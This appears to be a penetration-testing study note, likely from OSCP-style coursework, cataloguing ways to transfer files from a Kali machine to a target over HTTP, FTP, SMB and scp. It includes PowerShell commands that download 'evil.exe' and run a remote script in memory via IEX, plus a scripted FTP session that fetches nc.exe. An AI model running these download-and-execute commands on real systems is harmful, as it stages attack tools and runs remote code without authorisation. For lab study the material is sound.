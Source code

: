 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[File Transfers]]  
___

## Description:  

### http
host webpage on Kali
`python3 -m http.server 80`

Get the file with:
```
curl http://192.168.19.55/test.c --output test.c

wget 172.16.0.109/test

Invoke-WebRequest http://10.10.14.45:1234/required_tool -O tool

powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
```

You can run a powershell script right away with:
```
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Hello World
```

### FTP server
`sudo python3 -m pyftpdlib -p21 -w`

Or you can setup Pure-FTPd
```
sudo apt update && sudo apt install pure-ftpd

kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd


kali@kali:~$ chmod +x setup-ftp.sh
kali@kali:~$ sudo ./setup-ftp.sh
Password:
Enter it again:
Restarting ftp server

```


**Retrieve with Linux
`ftp 10.11.0.4`

**Retrieve with windows
```
C:\Users\offsec> ftp -h

C:\Users\offsec>echo open 10.11.0.4 21> ftp.txt
C:\Users\offsec>echo USER offsec>> ftp.txt
C:\Users\offsec>echo lab>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt


C:\Users\offsec> ftp -v -n -s:ftp.txt
```

### SMB server
```
On kali:

sudo smbserver.py share `pwd`

On Windows:

net use z: \\10.10.14.10\share

```

### scp
```
Remote Host to Local (push):
scp username@from_host:file.txt /local/directory/

Local to Remote Host (pull):
scp file.txt username@to_host:/remote/directory/

Use -r for directories

Remote to Remote:
scp username@from_host:/remote/directory/file.txt username@to_host:/remote/directory/
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:18 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

